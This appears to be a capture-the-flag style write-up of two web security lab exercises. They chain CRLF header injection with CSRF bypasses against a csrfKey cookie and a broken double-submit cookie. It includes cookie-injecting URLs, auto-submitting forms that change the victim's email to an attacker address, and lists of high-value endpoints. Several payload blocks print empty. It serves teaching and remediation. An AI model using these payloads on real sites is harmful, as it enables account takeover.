### 🧩 Step 1 — Capture Request (User A)

Login:

```
wiener : peter
```

---

Captured request:

```
POST /my-account/change-email

Cookie:
session=ABC
csrfKey=AAA123

Body:
csrf=AAA123
email=test@normal.com
```

---



---

### 🧠 Observation

```
csrf token matches csrfKey cookie
```

---

### 🧩 Step 2 — Cross-User Test (User B)

Login:

```
carlos : montoya
```

---

Reuse User A values:

```
Cookie:
session=XYZ
csrfKey=AAA123

Body:
csrf=AAA123
email=test@normal.com
```

---



---

### 🧠 Result

✔ Request accepted  
✔ Cross-user token reuse works  

---

### 🧠 Vulnerability Insight

```
csrf validation checks token == csrfKey
NOT session ownership
```

---

### 🧩 Step 3 — Discover Header Injection

Test search:

```
/?search=test
```

---

Response:

```
Set-Cookie: search=test
```

---



---

### 🧠 Observation

```
User input reflected in Set-Cookie header
```

---

👉 Header Injection confirmed

---

### 🧩 Step 4 — Inject csrfKey Cookie

```
/?search=test%0d%0aSet-Cookie:%20csrfKey=AAA123%3b%20SameSite=None
```

---

👉 Forces victim browser to set:

```
csrfKey=AAA123
```

---

### 🧩 Step 5 — Build Final Exploit

```
<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.com">
  <input type="hidden" name="csrf" value="AAA123">
</form>


```

---



---

### 🧩 Step 6 — Deliver Exploit

```
Victim loads attacker page
```

---

👉 Execution flow:

✔ Cookie injected  
✔ Form auto-submitted  
✔ Request accepted  

---

### 🧩 Step 7 — Result

```
Email changed via CSRF bypass
```

---

## 💣 🟨 Payload Breakdown (Easy)

---

### 🔹 Cookie Injection

```
%0d%0a → CRLF → new header
Set-Cookie: csrfKey=AAA123
```

---

### 🔹 CSRF Token

```
csrf=AAA123
```

---

### 🔹 IMG Trick

```

```

---

✔ Triggers request  
✔ Works cross-origin  

---

### 🔹 Auto Submit

```
onerror="document.forms[0].submit()"
```

---

✔ Executes after cookie injection  

---

## 🌍 🟥 Real-World Scenarios

---

### 🔥 Scenario 1 — Account Takeover

```
Inject csrfKey → change email → reset password
```

---

### 🔥 Scenario 2 — Banking Systems

```
Inject cookie → perform transfer
```

---

### 🔥 Scenario 3 — Admin Panel

```
Inject csrfKey → escalate privileges
```

---

### 🔥 Scenario 4 — SaaS Platforms

```
Modify billing / API keys
```

---

### 🔥 Scenario 5 — Multi-Step Chain

```
CRLF Injection → Cookie Injection → CSRF Bypass
```

---

## ⚔️ 🧠 Attack Chain

---

1️⃣ Capture valid csrfKey + token  
2️⃣ Confirm cross-user reuse  
3️⃣ Find header injection  
4️⃣ Inject csrfKey into victim  
5️⃣ Build exploit page  
6️⃣ Auto-submit request  
7️⃣ Victim executes payload  
8️⃣ Server accepts request  

---

## 🎯 High-Value Endpoints

---

### 🔹 Critical

```
/change-email
/change-password
/reset-password
/add-admin
```

---

### 🔹 Financial

```
/transfer-money
/add-payment-method
```

---

### 🔹 Account

```
/update-profile
/delete-account
```

---

### 🔹 Admin APIs

```
/admin/create-user
/admin/delete-user
```

---

## ⚠️ 🟥 Real-World Limitations + Bypass

---

### ❌ CSRF Bound to Session

👉 Attack fails

---

### ❌ No Header Injection

👉 Cannot set cookie

---

### ❌ SameSite=Strict

👉 Cookie not sent

---

### ❌ Input Sanitization

👉 CRLF blocked

---

### ✅ Bypass Ideas

```
Find alternate injection points
Use subdomain cookie injection
Chain with XSS
```

---

## 🛡️ 🔒 Remediation

---

### 🔴 Root Problem

CSRF token tied to controllable cookie instead of session

---

### ✅ Fix 1 — Bind Token to Session

```
Token must match user session
```

---

### ✅ Fix 2 — Prevent Header Injection

```
Sanitize CRLF (\r\n)
```

---

### ✅ Fix 3 — Secure Cookie Usage

```
SameSite=Strict
HttpOnly
Secure
```

---

### ✅ Fix 4 — Strong Token Design

```
Per-session or per-request tokens
```

---

### ✅ Fix 5 — Validate Origin / Referer

```
Block cross-site requests
```

---

### ✅ Fix 6 — Avoid Reflecting Input in Headers

```
Never use user input in Set-Cookie
```

---

## 🧠 🟪 Mental Model

---

Normal:

```
CSRF token + session = secure
```

---

This lab:

```
CSRF token + csrfKey = weak
```

---

Attacker:

```
controls csrfKey → controls validation
```

---

## 🎯 🧠 Final Summary

---

✔ Token exists but not session-bound  

✔ Cookie used for validation is controllable  

✔ Header injection enables cookie manipulation  

✔ Full CSRF bypass achieved  

---

## 🔥 Final One-Liner

---

Controllable CSRF cookie + header injection = full account takeover

---

# 🐞 Lab-6 — CSRF → Double Submit Cookie Bypass (CRLF Injection Chain)

---

## 🔥 Overview (Full Theory + Insight)

This lab demonstrates a CSRF vulnerability caused by an insecure **double submit cookie mechanism**, combined with a **CRLF (header) injection flaw**.

---

Normally:

CSRF protection ensures that requests originate from the legitimate user.

---

However, in this lab:

✔ CSRF token is stored in both cookie and request  
❌ Server only checks if they are equal  
❌ No session binding or ownership validation  

---

👉 Since both values are controlled by the client:

An attacker can manipulate both → bypass protection

---

## 🧠 🟦 Core Idea

If attacker controls both cookie and request token → CSRF protection fails

---

## 🧠 🟥 Key Exploit

```
csrf=fake
```

---

👉 Works because:

```
cookie.csrf == request.csrf
```

---

## 🔍 🧠 What Is This Topic?

### 🔹 Double Submit CSRF (Broken Implementation)

A flawed CSRF defense where the same token is stored in cookie and request, but not validated against session

---

## 🧪 🟩 Lab Walkthrough (STEP-BY-STEP)

---

### 🧩 Step 1 — Capture Request

Login:

```
wiener : peter
```

---

Captured request:

```
POST /my-account/change-email

Cookie:
session=ABC; csrf=XYZ

Body:
csrf=XYZ&email=test@mail.com
```

---

### 🧠 Observation

```
CSRF token exists in both cookie and request
```

---

### 🧩 Step 2 — Test Validation Logic

Modify token:

```
csrf=INVALID
```

---

👉 Result:

```
Request rejected
```

---

Keep both same:

```
csrf=XYZ (cookie + body)
```

---

👉 Result:

✔ Request accepted  

---

### 🧠 Insight

```
Server ONLY checks equality
```

---

### 🧩 Step 3 — Discover Cookie Injection

Test endpoint:

```
/?search=test
```

---

Response:

```
Set-Cookie: search=test
```

---

### 🧠 Observation

```
User input reflected into Set-Cookie header
```

---

👉 CRLF Injection possible

---

### 🧩 Step 4 — Inject Fake CSRF Cookie

```
/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None
```

---

👉 Victim browser stores:

```
csrf=fake
```

---

### 🧩 Step 5 — Build CSRF Exploit

```
<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.com">
  <input type="hidden" name="csrf" value="fake">
</form>
```

---

### 🧩 Step 6 — Combine Injection + Exploit

```

```

---

### 🧩 Step 7 — Deliver Exploit

```
Victim loads attacker page
```

---

👉 Execution flow:

✔ Cookie injected  
✔ Form auto-submitted  
✔ Request accepted  

---

### 🧩 Step 8 — Result

```
Email changed via CSRF bypass
```

---

## 💣 🟨 Final Payload

```
<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
  <input type="hidden" name="email" value="attacker@evil.com">
  <input type="hidden" name="csrf" value="fake">
</form>


```

---

## 💣 🟨 Payload Breakdown (Easy)

---

### 🔹 CSRF Token

```
csrf=fake
```

---

### 🔹 Cookie Injection

```
%0d%0a → CRLF → new header
Set-Cookie: csrf=fake
```

---

### 🔹 Form

```
<form method="POST" action="https://LAB-ID.web-security-academy.net/my-account/change-email">
```

---

### 🔹 IMG Trigger

```

```

---

✔ Sends request automatically  

---

### 🔹 Auto Submit

```
onerror="document.forms[0].submit();"
```

---

✔ Executes after cookie injection  

---

## 🌍 🟥 Real-World Scenarios

---

### 🔥 Scenario 1 — Banking Application

```
Inject csrf → transfer money
```

---

### 🔥 Scenario 2 — Account Takeover

```
Change email → reset password
```

---

### 🔥 Scenario 3 — Admin Abuse

```
Modify roles / permissions
```

---

### 🔥 Scenario 4 — API Exploitation

```
Perform sensitive actions via forged requests
```

---

### 🔥 Scenario 5 — Multi-Step Chain

```
CRLF Injection → Cookie Control → CSRF Bypass
```

---

## ⚔️ 🧠 Attack Chain

---

1️⃣ Capture request  
2️⃣ Identify double submit mechanism  
3️⃣ Confirm equality check  
4️⃣ Find CRLF injection  
5️⃣ Inject fake CSRF cookie  
6️⃣ Build exploit page  
7️⃣ Auto-submit request  
8️⃣ Victim executes payload  
9️⃣ Action performed  

---

## 🎯 High-Value Endpoints

---

### 🔹 Critical

```
/change-email
/change-password
/reset-password
/add-admin
```

---

### 🔹 Financial

```
/transfer-money
/add-payment-method
```

---

### 🔹 Account

```
/update-profile
/delete-account
```

---

### 🔹 Security

```
/2fa/enable
/api-key/regenerate
```

---

## ⚠️ 🟥 Real-World Limitations + Bypass

---

### ❌ Token Bound to Session

👉 Attack fails

---

### ❌ No Header Injection

👉 Cannot set cookie

---

### ❌ SameSite=Strict

👉 Cookie not sent

---

### ❌ Input Sanitization

👉 CRLF blocked

---

### ✅ Bypass Ideas

```
Find alternate injection points
Use subdomain cookie injection
Chain with XSS
```

---

## 🛡️ 🔒 Remediation

---

### 🔴 Root Problem

Server trusts client-controlled token without validation

---

### ✅ Fix 1 — Use Server-Side Tokens

```
Store token on server
```

---

### ✅ Fix 2 — Bind Token to Session

```
Token must match user session
```

---

### ✅ Fix 3 — Prevent Header Injection

```
Sanitize CRLF (\r\n)
```

---

### ✅ Fix 4 — Use SameSite Cookies

```
SameSite=Strict or Lax
```

---

### ✅ Fix 5 — Validate Origin / Referer

```
Block cross-site requests
```

---

### ✅ Fix 6 — Regenerate Tokens

```
Per session or per request
```

---

## 🧠 🟪 Mental Model

---

Secure:

```
Server validates token
```

---

Vulnerable:

```
Client controls token
```

---

If attacker controls both sides → protection fails  

---

## 🎯 🧠 Final Summary

---

✔ Double submit mechanism implemented incorrectly  

✔ Token equality check without validation  

✔ Cookie injection enables full control  

✔ Complete CSRF bypass achieved  

---

## 🔥 Final One-Liner

---

If attacker controls both cookie and request token → CSRF protection is useless
